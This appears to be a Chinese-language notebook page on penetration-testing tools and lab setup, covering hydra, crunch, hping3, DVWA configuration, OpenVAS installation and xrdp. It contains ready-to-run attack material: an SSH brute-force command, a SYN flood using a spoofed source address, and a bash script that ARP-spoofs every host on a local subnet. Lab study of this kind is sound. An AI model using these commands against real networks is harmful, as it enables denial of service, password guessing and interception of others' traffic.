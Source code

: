 Security
=======

## 黑客工具

### hydra

```
hydra l test -p password.txt 192.168.87.138 ssh -t 5 -vv
```



### medusa



### aircrach-ng

破解[WEP](https://zh.wikipedia.org/wiki/有線等效加密)以及[WPA](https://zh.wikipedia.org/w/index.php?title=Wi-Fi_Protected_Access&action=edit&redlink=1)（[字典攻击](https://zh.wikipedia.org/w/index.php?title=字典攻击&action=edit&redlink=1)）密钥



### crunch

```
crunch 1 3 123 >123.txt
```

### hping3

```
hping3 -q -n -a 2.2.2.2 -S -s 53 --keep -p 445 --flood 192.168.73.138
```

(格式：hping3 -q -n -a 伪造源地址 -S -s 伪造源端口 --keep -p 攻击的目标端口 --flood 目标IP)

### burpsuite



## DVWA

[官方网](https://github.com/digininja/DVWA)

### 安装php

### 下载安装包

### 安装配置

### Database Setup

To set up the database, simply click on the `Setup DVWA` button in the main menu, then click on the `Create / Reset Database` button. This will create / reset the database for you with some data in.

If you receive an error while trying to create your database, make sure your database credentials are correct within `./config/config.inc.php`. *This differs from config.inc.php.dist, which is an example file.*

The variables are set to the following by default:

```
$_DVWA[ 'db_user' ] = 'dvwa';
$_DVWA[ 'db_password' ] = 'p@ssw0rd';
$_DVWA[ 'db_database' ] = 'dvwa';
```

Note, if you are using MariaDB rather than MySQL (MariaDB is default in Kali), then you can't use the database root user, you must create a new database user. To do this, connect to the database as the root user then use the following commands:

```
mysql> create database dvwa;
Query OK, 1 row affected (0.00 sec)

mysql> create user dvwa@localhost identified by 'p@ssw0rd';
Query OK, 0 rows affected (0.01 sec)

mysql> grant all on dvwa.* to dvwa@localhost;
Query OK, 0 rows affected (0.01 sec)

mysql> flush privileges;
Query OK, 0 rows affected (0.00 sec)
```

### Other Configuration

Depending on your Operating System, as well as version of PHP, you may wish to alter the default configuration. The location of the files will be different on a per-machine basis.

**Folder Permissions**:

- `./hackable/uploads/` - Needs to be writeable by the web service (for File Upload).
- `./external/phpids/0.6/lib/IDS/tmp/phpids_log.txt` - Needs to be writable by the web service (if you wish to use PHPIDS).

**PHP configuration**:

- `allow_url_include = on` - Allows for Remote File Inclusions (RFI) [[allow_url_include](https://secure.php.net/manual/en/filesystem.configuration.php#ini.allow-url-include)]
- `allow_url_fopen = on` - Allows for Remote File Inclusions (RFI) [[allow_url_fopen](https://secure.php.net/manual/en/filesystem.configuration.php#ini.allow-url-fopen)]
- `safe_mode = off` - (If PHP <= v5.4) Allows for SQL Injection (SQLi) [[safe_mode](https://secure.php.net/manual/en/features.safe-mode.php)]
- `magic_quotes_gpc = off` - (If PHP <= v5.4) Allows for SQL Injection (SQLi) [[magic_quotes_gpc](https://secure.php.net/manual/en/security.magicquotes.php)]
- `display_errors = off` - (Optional) Hides PHP warning messages to make it less verbose [[display_errors](https://secure.php.net/manual/en/errorfunc.configuration.php#ini.display-errors)]

**File: `config/config.inc.php`**:

- `$_DVWA[ 'recaptcha_public_key' ]` & `$_DVWA[ 'recaptcha_private_key' ]` - These values need to be generated from: https://www.google.com/recaptcha/admin/create

### Default Credentials

**Default username = `admin`**

**Default password = `password`**

*...can easily be brute forced ;)*

Login URL: http://127.0.0.1/login.php

*Note: This will be different if you installed DVWA into a different directory.*



## kali

渗透测试的操作系统

## openvas

### install

```
sudo apt-get install openvas
sudo gvm-setup
sudo gvm-feed-update
sudo gvm-start
```

### 登录

[https://localhost:9392](https://localhost:9392/)

### 远程

openvas 无法开启远程ip服务，故如果远程使用的话，就需要使用vnc或者rdp

```sh
sudo apt install xrdp 

```

> By default Xrdp uses the `/etc/ssl/private/ssl-cert-snakeoil.key` file that is readable only by members of the “ssl-cert” group. Run the following command to [add the `xrdp` user to the group](https://linuxize.com/post/how-to-add-user-to-group-in-linux/) :

```
sudo adduser xrdp ssl-cert  
sudo systemctl restart xrdp
sudo systemctl enable xrdp
sudo reboot
```



## arpspoof

```sh
#!/bin/bash
#auther i
set -x
gateway=`route -n|grep "0.0.0.0"|head -1|awk '{print $2}'`
echo gateway is $gateway
network=${gateway%.*}.0
if [ -z "$gateway" ]; then
	echo "please set the gateway ip "
	exit
fi
function echome(){
	ip=$1
	if [ "$ip" != "$gateway" ]; then
		echo "to spoof "$ip
		arpspoof -t $ip -r $gateway
	fi
}

function ips(){
	ips=`nmap -sP $network/24|grep report|awk {'print $5'}`
	echo $ips
}
for i in `ips`
do 
echome $i &
done
```

